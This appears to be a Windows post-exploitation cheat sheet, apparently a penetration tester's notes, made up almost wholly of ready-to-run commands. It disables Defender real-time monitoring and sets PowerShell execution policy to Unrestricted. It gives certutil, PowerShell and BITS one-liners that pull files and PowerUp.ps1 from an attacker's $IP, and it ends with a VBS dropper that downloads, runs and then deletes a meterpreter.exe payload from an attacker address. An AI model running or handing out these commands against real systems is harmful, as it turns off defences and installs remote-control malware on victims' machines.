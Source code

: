 # Enum
whoami /priv  

## Powershell
Get-ExecutionPolicy    
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true  


# File Transfer  
certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
  
## Powershell
powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out   
BITS (Background Intelligence Transfer Service)   
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://$IP:$PORT/file.bat -Destination C:\   

## VBS 
echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"
